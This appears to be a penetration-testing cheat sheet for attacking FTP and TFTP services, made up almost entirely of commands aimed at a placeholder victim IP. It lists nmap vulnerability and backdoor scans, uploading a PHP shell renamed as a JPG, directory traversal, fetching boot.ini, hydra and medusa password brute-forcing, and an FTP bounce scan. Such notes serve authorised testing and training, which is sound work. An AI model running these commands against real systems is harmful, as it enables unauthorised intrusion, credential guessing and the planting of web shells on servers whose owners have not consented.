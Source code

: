 ### FTP:
FTP protocol is used to transfer files from one machine to another machine

##### nmap:
- nmap -p 21 -sV [victim_ip]
- nmap -sV -sC [victim_ip] -p 21
- namp --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum,ftp-default,ftp-user-enum -p [victim_ip]

##### Connect to a FTP server
- nc -nv [victim_ip] [port]

##### Download attemps
- ftp> GET boot.ini
- ftp> get boot.ini
- ftp> mget boot.ini
- ftp> get boot.ini file_name

##### Upload attemps
- ftp> put shell.php shell.jpg
- ftp> PUT shell.php shell.jpg
- ftp> send 
    (local-file) shell.php
    (remote-file) shell.jpg
    
##### File Traversal
- dir ../
- ls ../

##### Brute force
- medusa -h [victim_ip] -u user -P passwords.txt -M ftp 
- hydra -s [port] -C ./wordlists/ftp-default-userpass.txt -u -f [victim_ip] ftp

##### Windows dir change with ~1
```
cd /Docume~1/
cd /Progra~1/
```
##### FTP Bounce Scan
nmap –top-ports 1000 -vv -Pn -b anonymous:password@[victim_ip:21] 127.0.0.1

##### TFTP (udp:69)
nmap -oN tftp.nmap -v -sU -sV -T2 –script tftp* -p 69 [victim_ip]

